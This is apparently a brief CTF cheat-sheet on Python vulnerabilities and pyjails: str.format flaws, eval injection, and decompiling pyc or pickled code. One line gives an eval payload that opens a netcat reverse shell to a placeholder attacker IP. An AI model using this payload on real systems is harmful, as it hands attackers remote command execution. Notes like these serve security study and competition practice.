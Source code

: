 # Python

## vulnerabilities

- [str format](https://www.geeksforgeeks.org/vulnerability-in-str-format-in-python/)
- `eval`, execute system()
  - `"__import__('os').system('nc your_ip port -e /bin/sh')"`

## [obfuscation](../forensics/obfuscation.md#python)

## pyjails

understand pickled code if it executes automatically:

- compile python code to pyc
- decompile pyc with [pycdc](https://github.com/zrax/pycdc) or online

